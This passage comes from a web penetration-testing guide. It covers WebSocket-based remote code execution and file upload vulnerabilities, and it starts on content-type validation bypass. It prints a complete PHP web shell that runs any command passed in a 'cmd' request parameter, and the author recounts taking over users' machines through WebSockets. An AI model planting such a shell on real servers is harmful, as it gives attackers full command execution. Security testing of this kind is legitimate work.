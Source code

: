 	![](assets/websh.png)
	- We can use the following website to test for the vulnerability: 
		- http://websocket.org/echo.html
	
	- I have personally used this vulnerability to exploit quite a few applications. One of the instances allowed me to completely take over users machines as the web socket connection was being used to send shell commands to a remote server. This allowed me to gain remote code execution (RCE).
	
### 2.8 File Upload [Updated]
- As you are aware, web applications sometimes let users upload file files to their site. This can be in the form of a profile picture, pdf upload functionality, or whatever. 
- If done improperly attackers can upload malicious files potentially gaining remote code execution(RCE). If there is an upload feature you should be testing for this vulnerability.
- One of the first things I do when testing file upload functionalities is to upload a simple cmd backdoor.
- An Example of PHP Backdoor:
	``` php
	<?php if(isset($_REQUEST['cmd'])){ echo"<pre>"; $cmd = ($_REQUEST['cmd']); 
	system($cmd); echo "</pre>"; die; }?>
	```
- <b>Content Type Bypass</b>:
	- Content type validation is when the server validates the content of the file by checking the MIME type of the file, which can be found in the http request.
	- ![](assets/conval.png)
	